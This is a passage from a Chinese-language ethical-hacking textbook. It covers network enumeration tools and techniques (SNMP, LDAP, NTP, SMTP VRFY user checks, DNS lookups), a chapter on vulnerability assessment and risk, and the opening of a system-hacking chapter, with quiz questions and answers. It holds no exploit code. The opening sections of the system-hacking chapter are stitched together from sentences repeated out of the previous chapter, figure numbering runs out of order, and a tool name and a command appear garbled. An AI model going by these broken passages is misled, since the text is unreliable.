

**图 7.3:** `SuperScan` 主机扫描接口

主机和服务发现标签页可用于对 `0` 到 `65535` 范围内的所有 `UDP` 和 `TCP` 端口进行扫描。



**图 7.4:** `SuperScan` 主机和服务发现接口

`Superscan` 还通过 Windows 枚举标签提供了枚举 Windows 系统的能力。该接口具有丰富的选项，从 NetBIOS 到 Windows 上的用户会话枚举。



**图 7.5:** `SuperScan` Windows 枚举接口

`SuperScan` 的工具标签页提供了诸如主机名/IP 查找、`PING`、`ICMP traceroute`、区域传输、`HTTP HEAD` 和 `GET` 请求、`HTTPS GET` 请求、`Whois` 查找等。



**图 7.6:** `SuperScan` 工具接口

`nbtstat`: 这是用于查询 TCP/IP 上的 NetBIOS 信息、NetBIOS 表和缓存的 Windows 命令行程序。



**图 7.7:** `nbtstat`

`nbtstat -c`: 这是该工具最常用的变体，列出 NetBIOS 缓存。



**图 7.8:** `nbtstat -c`

`nbtstat -a`: 它用于查询指定 IP 地址的系统的 NetBIOS 表。它有效地列出了目标上运行的 NetBIOS 名称。



**图 7.9:** `nbtstat -a`

`Hyena`: 这是一个 Windows 风格的 GUI 界面，用于对 Windows 机器网络执行各种类型的枚举。


**图 7.0:** `Hyena` 接口

`Wingerprint`: 这是一个基于 Windows 的主机/网络枚举工具，能够执行 SMB、TCP、UDP、RPC、ICMP 和 SNMP 扫描。



**图 7.1:** `Winfingerprint`

# SNMP 枚举

**简单网络管理协议**或 **SNMP** 是一种应用层协议，为网络设备在局域网或广域网上交换网络管理信息提供通用语言。SNMP 环境由以下四个组件组成：

*   **SNMP 代理**：监控硬件或服务的软件。
*   **网络节点**：被监控的网络设备或服务。
*   **SNMP 管理器**：这是 SNMP 代理的中央控制中心。代理定期向此系统报告监控信息。管理器根据其能力根据这些信息采取行动。
*   **管理信息库**：`MIB` 是一个数据库文本文件（`.mib`），包含了可以通过 SNMP 管理的所有对象的列表和描述。

SNMP 通过在 `UDP` 或 `TCP/IP` 上传输的命令和消息工作。基本命令如下：

*   `GET`: SNMP 管理器向 SNMP 代理请求信息。
*   `GETNEXT`: SNMP 管理器持续请求数据，直到发现 SNMP 代理的所有数据。
*   `GETBULK`: 引入自 SNMPv2c，此消息用于一次性检索大量数据集。
*   `SET`: 用于 SNMP 管理器，用于设置 SNMP 代理上对象的值。
*   `RESPONSE`: SNMP 代理在接收到来自 SNMP 管理器的消息后发送作为回复的消息。
*   `TRAP`: 这些是来自 SNMP 代理发送到 SNMP 管理器的消息，用于指示故障。
*   `INFORM`: 引入自 SNMPv2c，这是由 SNMP 管理器向 SNMP 客户端发送的确认消息，用于通知已收到 `TRAP` 消息。

`OpUtils`: 这是一个 IP 地址和交换机端口管理工具，有助于网络监控、管理和调试。其易用的界面和分析功能可以为黑客对目标网络提供深度洞察。它提供免费版和付费版，免费版提供了大部分枚举工具。



**图 7.13:** `OpUtils` 仪表板

`MIB Explorer`: MIB 探测器是一个用于 SNMP 网络和启用 SNMP 设备的管理工具。该工具允许发送和接收 SNMP 请求包，并根据其规则引擎对其进行处理。它还可以支持 IPv6、路由跟踪和设备快照创建。



**图 7.14:** `MIB Explorer` 界面

# LDAP 枚举

**轻量级目录访问协议**或 `LDAP` 在 TCP/IP 上运行，用于访问分布式目录信息服务的信息。`LDAP` 目录是包含层次结构的对象集合。这可以包含从用户名、角色、组织层次结构、密码等各种信息。

`LDAP` 服务有时可以被攻击者匿名查询，以确定有效用户、地址、部门详情等。

`JXplorer`: `JXplorer` 是一个开源 LDAP 浏览器，可执行所有基本的 LDAP 操作。它提供了一个基于 GUI 的可配置视图，方便地查看和更新 `LDAP` 目录，并通过自定义的 java SSL socket 工厂完全支持 SSL 和 SASL 认证。



**图 7.15:** `JXplorer` 界面

该工具较新版本使用 SUN DSML/JNDI 提供程序，允许通过匿名绑定连接到启用 DSML 的目录。



**图 7.16:** `JXplorer` LDAP/DSML 连接界面

`LDAP Admin`: `LDAP Admin` 是一个免费客户端，通过 Windows 机器访问、搜索、创建、修改和删除 LDAP 数据库及其对象。它还能对目录树执行递归操作、进行架构浏览、密码管理以及各种其他功能。较新版本还包含了对 Samba 域的支持和 SSL 支持。



**图 7.17:** `LDAP Admin` 界面

# NTP 枚举

**网络时间协议**或 `NTP` 是一种基于 UDP 的时钟同步网络协议。`NTP` 通过时钟算法在两个系统（一个 NTP 服务器和一个 NTP 客户端）之间同步时间，该算法是相交算法（Marzullo 算法的修改）的组合。`NTP` 使用从 Stratum（层级）0 到 Stratum 15 的分层系统。Stratum 16 系统被认为是未同步的。

`NTP` 可用于收集有关网络的以下信息：

*   连接到 `NTP` 服务器的主机列表
*   客户端信息，如 IP 地址、主机名和操作系统
*   非军事化区内 NTP 服务器的内部 IP 地址



**图 7.18:** NTP 架构

# NTP 枚举命令

*   `ntptrace`: 追溯 NTP 主机链到主服务器。
*   `ntptrc`: 用于查询 NTP 守护进程的状态。
*   `ntpq`: 查询 NTP 守护进程。

`Wireshark`: `Wireshark` 是一个流行的开源网络数据包分析工具。它支持流量捕获、过滤、协议分析等多种功能。`Wireshark` 可以通过混杂模式拦截网络流量。它支持多种协议、离线分析、导出导出等功能。



**图 7.19:** `Wireshark` 界面

# SMTP 枚举

**简单邮件传输协议**或 `SMTP` 是一种广泛用于在互联网上发送电子邮件的应用程序层协议。与 POP3 和 IMAP 不同，SMTP 拥有以下命令：

*   `HELO`: 开始会话的第一个 SMTP 命令。
*   `EHLO`: 在使用扩展 SMTP 时开始会话的第一个命令。
*   `MAIL FROM`: 识别发送者。
*   `RCPT TO`: 识别接收者。
*   `SIZE`: 指示传入邮件的大小。
*   `DATA`: 开始邮件传输。
*   `VRFY`: 验证邮件。
*   `TURN`: 客户端和服务器角色。
*   `AUTH`: 基于用户名和密码进行认证。
*   `RSET`: 重置传输。
*   `EXPN`: 用于展开邮件列表以获取地址。
*   `QUIT`: 终止会话。

`VRFY`、`EXPN` 和 `RCPT TO` 命令可枚举 SMTP 服务器上的有效用户。

`Telnet`: 用户可以通过 `Telnet` 查询运行在端口 25 的 SMTP 服务器。一旦建立通信，可以使用简单的 `VRFY` 命令检查用户是否有效。对于有效用户，`VRFY` 返回消息代码 250、251 或 252。响应代码 550 表示用户无效。



**图 7.20:** 用于 SMTP 枚举的 `Telnet`

`NetScan Pro`: `NetScan Pro` 中的 SMTP 邮件生成器模拟了通过 SMTP 服务器发送邮件的过程。所有流行的邮件头参数（包括确认/紧急标记）都可以被提取，并支持简单的 SMTP 认证以及带有用户名和密码的 STARTTLS 认证。还可以提交邮件附件并记录邮件会话。`NetScan Pro` 中的邮件中继工具通过与 SMTP 服务器交互进行中继测试。



**图 7.21:** `NetScan Pro` 界面

# DNS 枚举

**域名系统**或 `DNS` 是连接到互联网的计算机系统、服务和其他资源的层次化命名系统。DNS 记录包含从 IP 地址到邮件服务器记录、`TXT` 记录等大量信息。这些记录披露了 DNS 服务器名称、机器名称、用户名、主机、IP 地址、物理信息等。

`Dig`: `Dig` 是一个查询域名系统的命令行工具。它默认查询 DNS 中的 `A` 记录。可以使用以下参数简化输出：

*   `nocmd` – 移除 `+cmd` 输出。
*   `noall` – 移除额外的标头、标志、时间信息、消息大小等。
*   `answer` – 告诉 `Dig` 返回答案部分（输出中的“精华”部分）。



**图 7.22:** `Dig` 枚举界面

还可以配置其他选项以获取其他的 DNS 记录。这些选项通常是附加在 `dig` 命令末后的记录类型。例如，对于名称服务器记录，命令如下：

```bash
dig <domain name> ns
```



**图 7.23:** `Dig` DNS 枚举界面

`NSLookup`：最常用的 DNS 枚举工具之一，`nslookup` 实际上是一个用于 DNS 的命令行管理工具。它为 DNS 查询提供了许多实用的选项，并以两种模式工作：交互模式和非交互模式。交互模式通过直接查询不带参数的 `nslookup` 命令来调用，或者在调用时将第一个参数设置为减号（`-`），并将第二个参数设置为 IP 地址的主机名。它会打开一个 `nslookup` 提示符，可用于查询主机的 DNS 记录。



**图 7.24:** `NSLookup` 选项

非交互模式通过将主机名或 IP 地址作为第一个参数，并将查询内容作为命令行参数来调用。



**图 7.25:** `NSLookup` DNS 枚举界面

`Whois`：用于与 WHOIS 服务器通信的命令行工具，`whois` 命令也可以用于从中央 whois 服务器枚举主机名或 IP 地址的 DNS 记录。



**图 7.26:** `Whois` DNS 枚举界面

# 结论

枚举往往能够对系统的组成和配置有一个大致的了解。它还可能导致系统自身或从各个组件继承的许多漏洞被发现。

本章有效地完成了黑客攻击循环中的信息收集阶段。在接下来的几个章节中，我们将深入研究用于对侦察阶段收集到的信息进行转向并渗透不同层级信息系统的工具和技术，将从分析目前为止黑客攻击循环中所发现的漏洞开始。

# 测试你的理解

1. **以下哪项不是 SNMP 命令？**
    1. `GET`
    2. `INFORM`
    3. `DELAY`
    4. `TRAP`

2. **以下哪项不能用于 DNS 枚举？**
    1. `NS lookup`
    2. `DIG`
    3. `Brutus`
    4. `Whois`

3. `EHLO`, `TURN` 和 `VRFY` 命令构成了哪个协议栈的一部分？
    1. `FTP`
    2. `SMTP`
    3. `TCP`
    4. `HTTP`

4. **NTP 用于：**
    1. 同步信息系统的时钟
    2. 同步硬件资源
    3. 同步 CPU 周期
    4. 以上都不是

5. `Nbtstat` 命令用于显示：
    1. DNS 信息
    2. 网络配置
    3. Linux 上的隐藏目录
    4. NetBIOS 信息

# 答案

1. **c**
2. **c**
3. **b**
4. **a**
5. **d**

# 第 8 章：漏洞评估

## 引言

漏洞评估是识别、量化和对系统、应用程序或实体中的漏洞进行优先级排序的过程。它是安全计划的关键组成部分，有助于帮助组织在漏洞被攻击者利用之前了解自身的弱点。

## 结构

我们本章将涵盖以下主题：

* 初步评估
* 系统基准定义
* 系统扫描
* 评估报告
* 风险评估
* 固有风险、剩余风险和风险偏好
* DevSec 方法论

## 目标

本章将为你提供评估漏洞的概念和技巧。我们还将学习威胁建模的过程，以更好地理解攻击向量。

## 流程概述

漏洞评估是对系统漏洞进行系统检查的过程。该过程的最终结果通常是一个包含发现和修复建议的报告。

在执行漏洞评估时，评估人员可以选择评估整个系统，也可以单独评估每个组件。

### 初步评估

这一步的目的是识别资源并描述系统中每个组件的安全特征和基本价值。这对于理解组件作为独立部分或集成部分在系统中的意义至关重要。初步评估旨在区分系统的通用属性、交互交互策略以及评估范围。

初步评估的结束应该是系统所有者和评估人员共同同意的一份文档，以建立执行规则。此后的所有后续步骤都受初步评估结束时形成的协议约束，并取决于双方共同同意的发现和修订。

* 服务器属性，如类型、版本和开放端口
* 正在使用的工具及其版本
* 安全配置
* 默认用户或安全角色层次结构
* 物理和逻辑防御措施，如监控系统、防火墙等

这里需要理解的一个重要点是，虽然理想情况下你应该获得你正在操作的系统所属组织的授权，但这一步骤应首先以外部人员的身份进行。这具有三个明显的优势：

* 评估人员可以彻底调查系统入口点，而不会仅受到预先画好的架构图的引导。
* 一旦收集了信息，评估人员还可以检查系统现有的 `IDS` 或日志系统是否能够标记这些活动。
* 这可以引导评估人员发现后门和被忽视的入口点。
* 随后，如果尚未覆盖，则可以根据已知的路径进行第二轮系统基准定义。
* **系统漏洞扫描**：这一步骤涉及使用自动化工具和机制对系统进行已知漏洞扫描。在开始此阶段时，需要注意以下几点：

    扫描应与系统所有者的约定保持一致。其侵入性不应超过约定的范围。

    1. 任何可能的系统运行时间或性能影响都应记录下来并与系统所有者达成一致。
    2. 任何可能的数据丢失都应提前告知，系统所有者应采取适当步骤进行数据备份。
    3. 在执行扫描之前，应制定好灾难恢复计划。


4. 应与系统所有者协商，为扫描设定合理的时间表。如果要在生产系统上进行扫描，应考虑到服务使用模式和对业务的影响。

根据实际需求和风险状况，可以通过多种方式和水平对系统进行扫描。诸如 `ISO`、`HIPPA` 和 `PCI DSS` 等许多标准可以帮助评估人员和系统所有者满足合规性要求和最佳实践。

通常，扫描阶段将涵盖系统的以下方面：

* 网络扫描
* 防火墙扫描
* 内容管理系统扫描
* 设备扫描
* `OWASP Top 10` 漏洞检查
* 合规性要求

根据扫描的性质和需求，它们可以是快速、隐蔽的、全扫描或全面的漏洞利用。

* **报告生成**：漏洞扫描后应立即跟进一份关于扫描期间采取的操作及其相应发现的详细报告。

  此报告必须包含以下信息：

  1. 资产名称和标识
  2. 相关风险
  3. 可能的突破点
  4. 突破的后果
  5. 风险等级（可接受/可忍/不理想/不可接受）
  6. 风险发生概率（极低/可能/可能）
  7. 风险水平（低/中/高/极高）
  8. 现有保护措施
  9. 需要修复的措施
  10. 优先级（低/中/高）

* **风险评估**：尽管通常是评估报告不可或缺的一部分，但单独讨论风险评估机制非常重要，因为它是漏洞评估中最重要的一个方面。

  风险评估旨在量化漏洞评估过程中发现系统中漏洞的因果关系。它根据对系统的预估影响，将问题分类为可执行的任务。定义影响时考虑了系统停机、恢复成本、公共关系影响等多个因素。

  

  **图 8.3：** 安全风险评估矩阵

  这可以作为识别出的风险修复计划的基础，并帮助将关键任务置于低风险任务之上。

  评估还可能项目短期补丁和可能的修复技术。

* **修复**：通知可能的安全漏洞仅完成了一半工作。从组织的角度来看，纠正问题并堵所有漏洞的任务属于修复阶段。安全研究人员帮助识别修复技术及其对已发现漏洞的有效性。

  某些修复技术包括：

  1. 服务器加固
  2. 安全策略的应用
  3. 软件更新和安全补丁的实施
  4. 丢弃无法修复的组件
  5. 为安全流程引入新组件

  评估人员需要根据报告的问题对其进行验证，并为系统所有者量化其有效性。执行修复步骤的任务通常由系统所有者承担。

## 剩余风险

作为系统所有者或评估人员，需要意识到保护系统的局限性。在保护系统方面，始终存在权衡。这通常是在系统防篡改性与易用性以及系统安全成本之间的权衡。在大多数情况下，使系统完全安全可能不是首要任务，甚至是不可能的。


**图 8.4：** 风险修复

因此，根据系统的关键程度、其整体价值、突破或灾难的影响以及恢复成本相对于保护成本，并保持安全性的更新，以最优化的方式对系统进行保护。这一阈值通常被称为系统的 `Risk Appetite`（风险胃）。由于系统的性质和运行方式而在不考虑任何修复措施的情况下产生的任何风险被称为系统的 `Inherent Risk`（固有风险）。

 **次级风险：** 这些是由于针对某些漏洞采取修复措施而直接或间接产生的风险。通常，系统所有者了解这些风险，并愿意为了关键的固有风险接受较小的次级风险。在其他情况下，这些可能未被预料，并在审查修复步骤时发现。次级风险通常来自安全配置更改、激进的边界条件覆盖、竞态条件等。

一旦系统所有者评估了这些因素，已漏洞和可能的问题就成了系统的 `Residual Risk`（剩余风险）。系统所有者通常会尽可能让这里的风险因素处于极低且可接受范围。其他剩余风险组件来自系统中新发现且尚未修复的漏洞。

## DevSecOps

随着近期互联网服务和内容数量的增加以及消费者行为的加速，软件开发的敏捷方法论催生了许多快速开发方法。每次发布都会推出大量功能，并以测试不充分的代码、边界条件和部分理解配置的形式带来一系列未知数。这无疑对应用程序的质量和安全性产生了负面影响。

快速开发的另一个重要方面是，系统安全的所有权悬于开发团队、质量保证团队和 DevOps 团队之间。这通常导致安全工作被搁后处理。一旦检测到问题（通常在开发或发布周期的后期），合规成本往往会显著增加。

DevSecOps 是一种方法论，它将应用程序安全的责任分摊软件开发生命周期的所有阶段以及所有利益相关者之间，即开发人员和 DevOps 团队。该过程在很大程度上依赖于威胁建模，以预确定攻击向量和集成边界，有助于识别可能的关注点。因此，安全审查会在开发周期和发布周期的每一步进行。


**图 8.5：** DevSecOps 循环


**图 8.6：** 通过 MS Threat Modeling Tool 进行威胁建模的示例

DevSecOps 高度依赖流程的自动化以最大限度地减少人工干预，并在系统中构建自动化的安全检查点。通常会部署静态代码分析器对代码质量和已知安全问题进行第一级检查。

## 结论

现在我们应该能够更准确地识别各种攻击面和向量，以及它们各自在黑客攻击中所扮演的角色。漏洞评估构成了基准，帮助攻击者决定探索的路径，或者为所有者列出需要优先修复的漏洞及其影响分析。

在理解了黑客攻击初步阶段的基础知识后，我们现在转向黑客和安全专业人员使用的更专门的形式和方法。下一章将涉及系统黑客概念以及在攻击信息系统时通常用于实现目标的工具。

## 测试你的理解

1. **以下哪项属于系统漏洞评估的范围？**
    1. 应用程序服务器
    2. 系统软件
    3. 数据库用户
    4. 以上所有

2. **关于不良漏洞，以下哪项是正确的？**
    1. 它对系统没有影响。
    2. 它对系统产生某些影响，但具有非致命副作用。
    3. 它对执行过程产生严重影响并构成主要风险。
    4. 它通常会导致安全灾难。

3. **以下哪项不是漏洞评估过程的一部分？**
    1. 足迹扫描
    2. 应用程序开发
    3. 网络扫描
    4. 社会工程

4. **以下哪些标准不能作为漏洞评估的参考？**
    1. HIPPA
    2. PCI-DSS
    3. ISO 27001
    4. ISO 9013

5. **针对漏洞评估的补救措施可能产生的风险被称为？**
    1. 固有风险
    2. 残留风险
    3. 次级风险
    4. 三级风险

## 答案

1. **d**
2. **c**
3. **b**
4. **d**
5. **c**

# 第 9 章 系统黑客

## 引言

信息系统以最原始的形式几乎总是一个计算设备。该过程在很大程度上依赖于威胁建模，以预确定攻击向量和集成边界，有助于识别可能的关注点。

## 结构

DevSecOps 高度依赖流程的自动化以最大限度地减少人工干预，并在系统中构建自动化的安全检查点。通常会部署静态代码分析器对代码质量和已知安全问题进行第一级检查。

## 目标

信息系统以最原始的形式几乎总是一个计算设备。下一章将涉及系统黑客概念以及在攻击信息系统时通常用于实现目标的工具。

## 系统黑客阶段

信息系统以最原始的形式几乎总是一个计算设备。下一章将涉及系统黑客概念以及在攻击信息系统时通常用于实现目标的工具。

在系统黑客阶段，攻击者试图：

1. **获取访问权限**
2. **权限提升**
3. **执行代码**
4. **维护**
5. **清除痕迹**

## 密码破解

在不是凭据实际所有者的情况下识别系统或服务的有效凭据的过程被称为 `password cracking`（密码破解）。根据系统和环境，可以通过多种方式实现。

1. **社会攻击**：包括使用网络钓鱼、窥视等社会工程学技术。
2. **在线攻击**：针对实时系统以验证其发现。
